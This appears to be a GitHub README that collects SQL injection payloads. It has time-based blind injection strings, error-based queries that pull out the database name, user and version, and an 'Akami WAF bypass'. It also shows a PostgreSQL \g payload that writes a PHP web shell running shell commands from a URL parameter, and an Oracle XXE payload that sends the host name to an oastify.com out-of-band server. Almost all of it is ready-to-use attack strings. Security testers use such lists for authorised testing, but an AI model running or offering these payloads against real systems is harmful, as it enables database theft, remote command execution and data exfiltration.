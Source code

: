 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
" AND (length(database())) = "11 --+-
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
SELECT * FROM(SELECT COUNT(*),CONCAT(database(),'--',(SELECT (ELT(1=1,version()))),'--','_Y000!_',FLOOR(RAND(1)*1))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x) a
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)

## Oracle SQL Injection
```sql
𝗮'||(𝘀𝗲𝗹𝗲𝗰𝘁+𝗲𝘅𝘁𝗿𝗮𝗰𝘁𝘃𝗮𝗹𝘂𝗲(𝘅𝗺𝗹𝘁𝘆𝗽𝗲('<?𝘅𝗺𝗹+𝘃𝗲𝗿𝘀𝗶𝗼𝗻="𝟭.𝟬"+𝗲𝗻𝗰𝗼𝗱𝗶𝗻𝗴="𝗨𝗧𝗙-𝟴"?><!𝗗𝗢𝗖𝗧𝗬𝗣𝗘+𝗿𝗼𝗼𝘁+[+<!𝗘𝗡𝗧𝗜𝗧𝗬 %+𝘅𝘅𝗲+𝗦𝗬𝗦𝗧𝗘𝗠+"𝗵𝘁𝘁𝗽://𝗰𝗰𝘀𝗿𝗵𝟯𝟰𝘃𝟵𝘁𝘄𝗳𝘀𝗻𝗰𝗳𝘀𝗹𝘂𝗽𝘂𝗱𝘀𝟵𝟯𝟬𝟵𝗿𝘅𝗵𝗹𝟲.𝗼𝗮𝘀𝘁𝗶𝗳𝘆.𝗰𝗼𝗺/'||𝗦𝗬𝗦_𝗖𝗢𝗡𝗧𝗘𝗫𝗧('𝗨𝗦𝗘𝗥𝗘𝗡𝗩','𝗛𝗢𝗦𝗧')||'">%𝘅𝘅𝗲;]>'),'/𝗹')+𝗳𝗿𝗼𝗺+𝗱𝘂𝗮𝗹)||'
```
![img](/SQL-Payloads/assets/1725186738108.jpg)
